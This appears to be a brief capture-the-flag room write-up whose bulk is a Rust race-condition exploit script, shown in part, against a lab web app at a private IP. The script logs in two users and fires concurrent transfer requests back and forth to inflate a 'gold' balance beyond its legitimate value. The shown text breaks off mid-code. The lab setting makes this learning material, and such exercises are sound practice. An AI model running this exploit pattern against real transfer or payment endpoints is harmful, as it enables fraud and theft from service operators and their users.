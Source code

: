 A good room! Had a lot of fun - nice learning some utility rust coding.

## Rust race condition exploiter.

This requires the following cargo.toml dependencies:

```yaml
[dependencies]
anyhow = "1.0.70"
futures = "0.3.27"
reqwest = "0.11.15"
tokio = { version = "1.26.0", features = ["macros", "rt-multi-thread"] }
```

Ensure the appropriate users are created, and update the constant url in the code before running:

```rust
use std::collections::HashMap;
use anyhow::Result;

use futures::{stream, StreamExt};
use reqwest::{Proxy, header::COOKIE, redirect::Policy, Client};

const CONCURRENT: usize = 20;
const SITE_URL: &str = "http://10.10.57.199";

async fn client() -> Result<Client> {
    Ok(reqwest::Client::builder()
        .redirect(Policy::none())
        .build()?)
}

fn page_url(page: &str) -> String {
    format!("{}/{}", SITE_URL, page)
}

#[tokio::main]
async fn main() -> Result<()> {

    let user1 = get_auth_cookie("test").await?;
    let user2 = get_auth_cookie("test2").await?;

    let mut gold1 = get_gold_amount(&user1).await?;
    while gold1 < 10000 {
        println!("{gold1}");
        race_send(&user1, "test2", gold1).await?;
        let gold2 = get_gold_amount(&user2).await?;
        race_send(&user2, "test", gold2).await?;
        gold1 = get_gold_amount(&user1).await?;
    }    

    println!("done");
    Ok(())
}

async fn get_auth_cookie(username: &str) -> Result<String> {
    let client = client().await?;
    let mut params = HashMap::new();
    params.insert("username", username);
    params.insert("password", username);
    let resp = client.post(page_url("api/login")).form(&params).send().await?;

    let cookie = &resp.headers()["set-cookie"];
    let cookie = cookie.to_str().unwrap().to_string();
    Ok(cookie[..cookie.find(";").unwrap()+1].to_string())
```